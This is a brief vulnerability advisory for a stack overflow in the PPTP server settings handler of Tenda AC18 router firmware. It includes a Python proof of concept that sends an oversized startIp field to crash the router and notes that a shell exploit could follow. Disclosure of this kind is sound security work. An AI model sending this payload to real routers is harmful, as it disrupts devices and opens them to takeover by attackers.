

## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetPPTPServer function of the Tenda AC18 V15.03.05.019 firmware. 
The v27 variable retrieves the startIP parameter from a POST request without proper validation, and then the contents matched by v27 
and put into the v19 without size checking, resulting in a stack overflow.
   
   

## 3 POC

import requests
url = 'http://IP:port/goform/SetPptpServerCfg'
headers = {"Cookie": "password=You cookie"}
data = {
    'serverEn': 2,
    'startIp': 'l' * 10000
}
r = requests.post(url=url, headers=headers, data=data)
res = r.text
print(res)
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
